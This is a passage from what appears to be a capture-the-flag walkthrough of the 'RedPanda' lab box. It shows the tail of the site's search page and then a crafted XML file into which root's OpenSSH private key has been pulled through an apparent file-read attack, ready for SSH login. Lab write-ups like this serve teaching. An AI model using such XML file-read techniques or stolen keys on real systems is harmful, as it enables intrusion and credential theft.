 ```bash
          <span class='nose'></span>
          <span class='lips-top'></span>
        </div>
      </div>
    </div>
    <h1>RED PANDA SEARCH</h1>
    <div class="wrapper" >
    <form class="searchForm" action="/search" method="POST">
    <div class="wrap">
      <div class="search">
        <input type="text" name="name" placeholder="Search for a red panda">
        <button type="submit" class="searchButton">
          <i class="fa fa-search"></i>
        </button>
      </div>
    </div>
    </form>
    </div>
  </body>
</html>

```
After a couple of minutes we should be able to capture the SSH key from the root user in our XML file.
```bash
woodenk@redpanda:/tmp$ cat attack_creds.xml
                       cat attack_creds.xml
cat attack_creds.xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE author>
<credits>
  <author>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</author>
  <image>
    <uri>/img/greg.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/hungy.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smooch.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smiley.jpg</uri>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>

```
To logon to the SSH service we need to copy the content of the SSH key and paste it into a file on our attacker machine.
